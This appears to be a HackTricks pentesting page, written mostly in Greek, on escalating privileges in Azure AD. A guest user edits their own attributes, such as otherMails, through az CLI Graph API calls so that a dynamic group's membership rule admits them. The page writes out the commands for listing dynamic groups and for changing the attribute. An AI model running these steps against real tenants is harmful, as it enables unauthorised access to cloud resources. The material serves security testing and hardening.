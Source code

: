 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Dynamic groups** είναι ομάδες που έχουν ένα σύνολο **κανόνων** ρυθμισμένων και όλοι οι **χρήστες ή συσκευές** που ταιριάζουν με τους κανόνες προστίθενται στην ομάδα. Κάθε φορά που ένα **χαρακτηριστικό** χρήστη ή συσκευής **αλλάζει**, οι δυναμικοί κανόνες **επαληθεύονται** ξανά. Και όταν δημιουργείται ένας **νέος κανόνας**, όλες οι συσκευές και οι χρήστες **ελέγχονται**.

Οι δυναμικές ομάδες μπορούν να έχουν **Azure RBAC ρόλους** ανατεθειμένους σε αυτές, αλλά **δεν είναι δυνατή** η προσθήκη **AzureAD ρόλων** σε δυναμικές ομάδες.

Αυτή η δυνατότητα απαιτεί άδεια Azure AD premium P1.

## Privesc

Σημειώστε ότι από προεπιλογή οποιοσδήποτε χρήστης μπορεί να προσκαλεί επισκέπτες στο Azure AD, οπότε, αν ένας κανόνας **δυναμικής ομάδας** δίνει **δικαιώματα** σε χρήστες με βάση **χαρακτηριστικά** που μπορούν να **ρυθμιστούν** σε έναν νέο **επισκέπτη**, είναι δυνατόν να **δημιουργηθεί ένας επισκέπτης** με αυτά τα χαρακτηριστικά και να **ανεβούν τα δικαιώματα**. Είναι επίσης δυνατό για έναν επισκέπτη να διαχειρίζεται το προφίλ του και να αλλάζει αυτά τα χαρακτηριστικά.

Αποκτήστε ομάδες που επιτρέπουν Δυναμική συμμετοχή: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Rule description**: Οποιοσδήποτε επισκέπτης χρήστης με δευτερεύον email που περιέχει τη λέξη 'security' θα προστεθεί στην ομάδα

Για το email του επισκέπτη χρήστη, αποδεχτείτε την πρόσκληση και ελέγξτε τις τρέχουσες ρυθμίσεις **αυτού του χρήστη** στο [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Δυστυχώς, η σελίδα δεν επιτρέπει την τροποποίηση των τιμών χαρακτηριστικών, οπότε πρέπει να χρησιμοποιήσουμε το API:
```bash
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
## Αναφορές

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}
